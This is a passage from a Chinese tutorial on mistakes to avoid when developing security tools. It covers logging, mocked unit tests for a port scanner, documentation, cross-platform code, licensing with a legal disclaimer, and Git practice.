        # 文件处理器（带轮转）
        if log_file:
            os.makedirs(os.path.dirname(log_file) or '.', exist_ok=True)
            file_handler = logging.handlers.RotatingFileHandler(
                log_file,
                maxBytes=max_bytes,
                backupCount=backup_count,
                encoding='utf-8'
            )
            file_handler.setLevel(logging.DEBUG)   # 文件记录更详细
            file_handler.setFormatter(detailed_fmt)
            self.logger.addHandler(file_handler)
        
        # 审计日志（单独的文件，只记录关键操作）
        audit_handler = logging.handlers.RotatingFileHandler(
            log_file.replace('.log', '.audit.log') if log_file else 'audit.log',
            maxBytes=max_bytes,
            backupCount=backup_count,
            encoding='utf-8'
        )
        audit_handler.setLevel(logging.WARNING)
        audit_handler.setFormatter(logging.Formatter(
            '%(asctime)s | AUDIT | %(message)s',
            datefmt='%Y-%m-%d %H:%M:%S'
        ))
        self.audit_logger = logging.getLogger(f"{name}.audit")
        self.audit_logger.addHandler(audit_handler)
        self.audit_logger.setLevel(logging.WARNING)
    
    def info(self, msg: str):
        self.logger.info(msg)
    
    def debug(self, msg: str):
        self.logger.debug(msg)
    
    def warning(self, msg: str):
        self.logger.warning(msg)
        self.audit_logger.warning(msg)
    
    def error(self, msg: str):
        self.logger.error(msg)
        self.audit_logger.error(msg)
    
    def scan_start(self, target: str, scan_type: str):
        """记录扫描开始"""
        self.info(f"▶ Scan started: type={scan_type}, target={target}")
    
    def scan_result(self, target: str, findings: int):
        """记录扫描结果"""
        self.info(f"◀ Scan complete: target={target}, findings={findings}")
        self.audit_logger.warning(f"SCAN_RESULT: target={target}, findings={findings}")

# 使用示例
logger = ToolLogger("port_scanner", log_file="logs/scanner.log")
logger.scan_start("192.168.1.1", "tcp_connect")
# ... 执行扫描 ...
logger.scan_result("192.168.1.1", findings=5)
```

### 3.2 误区九：不做代码测试

**表现**：没有编写测试代码，工具的正确性完全靠「手动跑一遍看看」来保证。

**为什么安全工具尤其需要测试？**

- 安全工具的核心逻辑（漏洞检测、payload 生成）如果有 bug，后果是双重的：要么漏报（漏掉真实漏洞），要么误报（浪费安全团队的时间去核实假警报）
- 安全工具的输入空间极大——各种畸形数据、边界情况、协议变体——不写测试几乎不可能覆盖
- 安全工具会被反复使用和修改，没有测试就没有安全网

**测试层次**：

```python
# ✅ 安全工具的测试套件
import unittest
from unittest.mock import patch, MagicMock, mock_open
import socket

class TestPortScanner(unittest.TestCase):
    """端口扫描器测试"""
    
    def setUp(self):
        """每个测试前的准备工作"""
        self.scanner = PortScanner("127.0.0.1")
    
    # ==================== 单元测试 ====================
    
    def test_port_validation_valid(self):
        """测试有效端口验证"""
        for port in [1, 80, 443, 8080, 65535]:
            with self.subTest(port=port):
                self.assertTrue(self.scanner.validate_port(port))
    
    def test_port_validation_invalid(self):
        """测试无效端口验证"""
        for port in [-1, 0, 65536, 100000, -100]:
            with self.subTest(port=port):
                self.assertFalse(self.scanner.validate_port(port))
    
    def test_port_range_parsing(self):
        """测试端口范围解析"""
        self.assertEqual(self.scanner.parse_port_range("80"), [80])
        self.assertEqual(self.scanner.parse_port_range("80,443"), [80, 443])
        self.assertEqual(self.scanner.parse_port_range("80-85"), [80, 81, 82, 83, 84, 85])
        self.assertEqual(
            self.scanner.parse_port_range("22,80-85,443"),
            [22, 80, 81, 82, 83, 84, 85, 443]
        )
    
    # ==================== Mock 测试（不需要真实网络） ====================
    
    @patch('socket.socket')
    def test_tcp_connect_scan_open_port(self, mock_socket_class):
        """测试开放端口的检测（模拟）"""
        mock_sock = MagicMock()
        mock_socket_class.return_value = mock_sock
        mock_sock.connect_ex.return_value = 0  # 模拟端口开放
        
        result = self.scanner.tcp_connect_scan(80)
        
        self.assertTrue(result)
        mock_sock.connect_ex.assert_called_once_with(("127.0.0.1", 80))
    
    @patch('socket.socket')
    def test_tcp_connect_scan_closed_port(self, mock_socket_class):
        """测试关闭端口的检测（模拟）"""
        mock_sock = MagicMock()
        mock_socket_class.return_value = mock_sock
        mock_sock.connect_ex.return_value = 1  # 模拟端口关闭
        
        result = self.scanner.tcp_connect_scan(80)
        
        self.assertFalse(result)
    
    @patch('socket.socket')
    def test_tcp_connect_scan_timeout(self, mock_socket_class):
        """测试连接超时处理"""
        mock_sock = MagicMock()
        mock_socket_class.return_value = mock_sock
        mock_sock.connect_ex.side_effect = socket.timeout
        
        result = self.scanner.tcp_connect_scan(80, timeout=1)
        
        self.assertFalse(result)  # 超时应返回 False，不应崩溃
    
    # ==================== 集成测试 ====================
    
    def test_scan_common_ports(self):
        """测试常见端口列表包含预期端口"""
        ports = self.scanner.get_common_ports()
        for expected in [22, 80, 443, 8080, 3306]:
            with self.subTest(port=expected):
                self.assertIn(expected, ports)
    
    def test_scan_result_format(self):
        """测试扫描结果格式"""
        result = self.scanner.format_result(port=80, state="open", service="http")
        self.assertIn("80", result)
        self.assertIn("open", result)
        self.assertIn("http", result)

class TestInputValidator(unittest.TestCase):
    """输入验证测试"""
    
    def test_validate_url_valid(self):
        from security_tools import InputValidator
        self.assertEqual(
            InputValidator.validate_target_url("https://example.com"),
            "https://example.com"
        )
    
    def test_validate_url_reject_internal(self):
        from security_tools import InputValidator
        with self.assertRaises(ValueError):
            InputValidator.validate_target_url("http://127.0.0.1/admin")
    
    def test_validate_url_reject_ftp(self):
        from security_tools import InputValidator
        with self.assertRaises(ValueError):
            InputValidator.validate_target_url("ftp://example.com/file")

if __name__ == '__main__':
    unittest.main(verbosity=2)
```

### 3.3 误区十：忽略代码文档

**表现**：代码缺乏注释和文档，其他人（包括半年后的自己）难以理解和维护。

**好的文档 vs 坏的文档**：

```python
# ❌ 没用的注释
def scan(url):    # 扫描URL
    """扫描"""     # 同义重复
    pass

# ✅ 有用的文档
def scan(target_url: str, scan_types: list = None, timeout: int = 10) -> ScanResult:
    """
    执行 Web 漏洞扫描
    
    本函数对目标 URL 执行指定类型的漏洞检测。扫描过程包括：
    1. 目标可达性检查（ICMP + HTTP）
    2. 按 scan_types 参数依次执行检测模块
    3. 去重并合并结果
    
    Args:
        target_url: 目标 URL，必须以 http:// 或 https:// 开头
        scan_types: 要执行的扫描类型列表。可选值：
            - "sqli"     SQL 注入检测
            - "xss"      跨站脚本检测
            - "lfi"      本地文件包含检测
            默认执行全部类型
        timeout: 每个请求的超时时间（秒），默认 10
    
    Returns:
        ScanResult: 扫描结果对象，包含：
            - findings: 发现的漏洞列表
            - scan_time: 扫描耗时（秒）
            - errors: 执行过程中的错误信息
    
    Raises:
        ValueError: target_url 格式不合法
        ConnectionError: 目标不可达（重试 3 次后）
    
    Example:
        >>> result = scan("https://example.com", scan_types=["sqli", "xss"])
        >>> for finding in result.findings:
        ...     print(f"[{finding.severity}] {finding.name}")
    
    Note:
        - 扫描前请确认已获得目标系统的授权
        - 大量请求可能触发 WAF，建议设置合理 timeout
    """
    pass
```

**文档层级建议**：

| 文档层级 | 内容 | 工具/格式 |
|----------|------|-----------|
| 模块级 | 模块的职责、使用方式、依赖关系 | 模块开头的 docstring |
| 类级 | 类的用途、主要属性、使用示例 | 类的 docstring |
| 方法级 | 参数、返回值、异常、使用示例 | 方法的 docstring（Google/NumPy 风格） |
| 行内注释 | 复杂逻辑、算法选择的原因 | `# 为什么这么做`，而不是 `# 做了什么` |

### 3.4 误区十一：不考虑跨平台兼容

**表现**：只在单一平台上开发和测试，导致工具在其他平台无法运行。

**常见跨平台陷阱**：

| 问题 | Windows | Linux/macOS | 解决方案 |
|------|---------|-------------|----------|
| 路径分隔符 | `\` | `/` | 用 `pathlib.Path` 替代字符串拼接 |
| 系统命令 | `ping -n 1` | `ping -c 1` | 用 `platform.system()` 判断 |
| 文件编码 | GBK/CP936 | UTF-8 | 指定 `encoding='utf-8'` |
| 换行符 | `\r\n` | `\n` | 用 `os.linesep` 或文本模式写入 |
| 最大路径长度 | 260字符（默认） | 无限制 | 避免过深目录结构 |
| 权限模型 | ACL | Unix permissions | 跨平台兼容层 |

```python
# ✅ 跨平台兼容示例
import platform
import sys
import os
from pathlib import Path
import shutil

class CrossPlatformHelper:
    """跨平台辅助工具"""
    
    @staticmethod
    def get_config_dir(app_name: str = "SecurityScanner") -> Path:
        """获取平台标准的配置目录"""
        system = platform.system()
        
        if system == 'Windows':
            base = Path(os.environ.get('APPDATA', Path.home()))
        elif system == 'Darwin':  # macOS
            base = Path.home() / 'Library' / 'Application Support'
        else:  # Linux and others
            base = Path.home() / '.config'
        
        config_dir = base / app_name
        config_dir.mkdir(parents=True, exist_ok=True)
        return config_dir
    
    @staticmethod
    def get_log_dir(app_name: str = "SecurityScanner") -> Path:
        """获取平台标准的日志目录"""
        system = platform.system()
        
        if system == 'Windows':
            base = Path(os.environ.get('LOCALAPPDATA', Path.home()))
        elif system == 'Darwin':
            base = Path.home() / 'Library' / 'Logs'
        else:
            base = Path.home() / '.local' / 'share'
        
        log_dir = base / app_name / 'logs'
        log_dir.mkdir(parents=True, exist_ok=True)
        return log_dir
    
    @staticmethod
    def check_dependencies(required: list[str]) -> dict:
        """检查系统依赖，返回 {tool: path_or_None}"""
        results = {}
        for tool in required:
            if platform.system() == 'Windows' and not tool.endswith('.exe'):
                tool_name = f"{tool}.exe"
            else:
                tool_name = tool
            results[tool] = shutil.which(tool_name)
        return results
    
    @staticmethod
    def run_platform_command(commands: dict, **kwargs):
        """
        根据平台执行不同命令
        
        Usage:
            run_platform_command({
                "Windows": ["ipconfig"],
                "Linux": ["ip", "addr"],
                "Darwin": ["ifconfig"],
            })
        """
        system = platform.system()
        cmd = commands.get(system) or commands.get("default")
        if cmd is None:
            raise OSError(f"No command defined for {system}")
        
        import subprocess
        return subprocess.run(cmd, **kwargs)

# 使用示例
config_dir = CrossPlatformHelper.get_config_dir("MyScanner")
log_dir = CrossPlatformHelper.get_log_dir("MyScanner")

deps = CrossPlatformHelper.check_dependencies(["nmap", "curl", "python3"])
missing = [t for t, p in deps.items() if p is None]
if missing:
    print(f"Missing dependencies: {missing}")
```

---

## 四、发布与维护误区

### 4.1 误区十二：忽视许可证和法律问题

**表现**：不考虑代码的许可证问题，或者开发的工具可能被用于非法用途。

**为什么安全工具的法律风险特别高？**

安全工具具有「双刃剑」特性——同一工具可以用于合法的渗透测试，也可以用于非法攻击。如果工具没有明确的使用声明和法律条款，作者可能承担连带责任。更重要的是，如果你的工具使用了 GPL 等传染性许可证的开源库，你的代码也必须以 GPL 发布。

**许可证选择指南**：

| 许可证 | 传染性 | 允许商用 | 适合场景 |
|--------|--------|----------|----------|
| MIT | 无 | ✅ | 个人工具、最宽松 |
| Apache 2.0 | 无 | ✅ | 企业级项目（含专利授权） |
| GPL v3 | 强 | ✅（但代码必须开源） | 开源社区项目 |
| LGPL | 弱 | ✅（动态链接不传染） | 开源库 |
| BSD 3-Clause | 无 | ✅ | 学术项目、简单工具 |

**安全工具的法律声明模板**：

```python
"""
DISCLAIMER / 免责声明

本工具仅供授权安全测试、安全研究和教育目的使用。

使用本工具前，您必须：
1. 获得目标系统所有者的书面授权
2. 遵守适用的法律法规（包括但不限于《网络安全法》《数据安全法》《刑法》）
3. 仅在授权范围内使用，不超出测试授权边界
4. 妥善保管工具及其生成的数据，防止泄露

未经授权对计算机信息系统进行测试属于违法行为。
根据《中华人民共和国刑法》第285条、286条：
- 非法侵入计算机信息系统：3年以下有期徒刑或拘役
- 造成严重后果：3-7年有期徒刑

作者不对因使用本工具造成的任何直接或间接损失承担责任。

License: MIT
"""
```

### 4.2 误区十三：不做版本管理

**表现**：没有使用版本控制，代码变更难以追踪和回滚。

**版本管理的最佳实践**：

```bash
# ✅ 安全工具项目的 Git 规范

# 1. 初始化项目
git init
git checkout -b main

# 2. 创建完整的项目结构
mkdir -p src/ tests/ docs/ configs/ examples/
touch README.md LICENSE .gitignore

# 3. .gitignore 必须包含（防止泄露敏感信息）
cat > .gitignore << 'EOF'
# 环境和密钥
.env
.env.*
*.pem
*.key
secrets/
credentials/

# Python
__pycache__/
*.pyc
*.egg-info/
dist/
build/
.venv/
venv/

# IDE
.vscode/
.idea/
*.swp

# 工具生成的文件
*.log
reports/
output/
EOF

# 4. 语义化版本号（Semantic Versioning）
# MAJOR.MINOR.PATCH
# MAJOR: 不兼容的 API 变更（如扫描器输出格式改变）
# MINOR: 向后兼容的功能新增（如新增 XSS 检测模块）
# PATCH: 向后兼容的 bug 修复（如修复超时处理）

# 5. 提交规范
git add .
git commit -m "feat(sqli): add time-based blind injection detection"
git commit -m "fix(scanner): handle empty response gracefully"
git commit -m "docs(readme): update installation instructions"

# 6. 发布标签
git tag -a v1.0.0 -m "First stable release: SQL injection + XSS detection"
git tag -a v1.1.0 -m "Add LFI detection module"

# 7. 分支策略
# main       — 稳定版本，始终可发布
# develop    — 开发主线，功能集成
# feature/*  — 功能分支，开发完合并到 develop
# hotfix/*   — 紧急修复，从 main 拉出
```

**版本管理中容易忽略的细节**：

1. **不要提交敏感信息到 Git**：即使后来删除了，Git 历史中仍然保留。使用 `git-secrets` 或 `pre-commit` 钩子自动检测
2. **CHANGELOG 要维护**：用户需要知道每个版本改了什么。可以用 [keep-a-changelog](https://keepachangelog.com/) 格式
3. **分支保护**：在 GitHub/GitLab 上对 main 分支开启保护，要求 PR + CI 通过才能合并
4. **Release Notes**：每次发版本附上说明，告知用户新增了什么、修复了什么、是否需要迁移

---

## 五、综合反思：从误区到最佳实践

### 避免误区的系统性方法

单个误区容易识别，但系统性地避免所有陷阱需要一套方法论。以下是一个「安全工具开发检查清单」，在启动每个新项目时对照检查：



### 误区之间的关联关系

这些误区并非孤立存在，它们之间存在因果链：

| 起因误区 | 导致的下游问题 | 连锁反应 |
|----------|--------------|----------|
| 硬编码配置 | 无法在不同环境部署 → 不做跨平台测试 | 换环境就崩溃 |
| 缺乏错误处理 | 异常信息丢失 → 缺乏日志也难以排查 | 出了问题找不到原因 |
| 不做测试 | 重构/添加功能时引入回归 bug | 工具越改越不稳定 |
| 不做版本管理 | 无法回滚到稳定版本 | 紧急修复变成紧急灾难 |
| 忽视许可证 | 被迫开源或面临法律诉讼 | 项目被迫终止 |

### 实战建议：从今天开始改变

1. **立刻能做的**（0 成本）：删除代码中的硬编码密码，换成环境变量；给关键函数加上 docstring
2. **本周能做的**（半天时间）：创建 `.gitignore`，初始化 Git 仓库，写一个基础的 README
3. **本月能做的**（1-2天）：搭建测试框架，为核心函数写单元测试，配置日志系统
4. **持续做的**：每次提交前检查安全清单，每个版本更新 CHANGELOG

安全工具开发是一个不断学习和改进的过程。识别误区只是第一步，关键是将这些认识转化为日常编码习惯。保持对最佳实践的关注，持续优化开发流程，才能开发出真正可靠、安全、有价值的安全工具。
